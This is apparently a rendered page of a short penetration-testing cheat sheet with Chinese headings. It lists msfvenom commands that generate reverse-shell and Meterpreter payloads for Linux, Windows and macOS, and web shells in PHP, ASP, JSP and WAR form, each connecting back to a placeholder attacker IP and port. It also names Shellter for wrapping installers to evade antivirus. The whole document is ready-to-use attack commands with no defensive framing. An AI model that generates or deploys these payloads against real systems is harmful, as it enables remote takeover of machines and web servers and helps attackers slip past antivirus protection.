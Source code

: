 msf 生成payload代码

shellter 嵌套安装程序，免杀



msfvenom -l



Binaries:



Linux



msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Windows



msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Mac



msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho



Web Payloads

PHP



msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php



cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP



msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP



msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR



msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
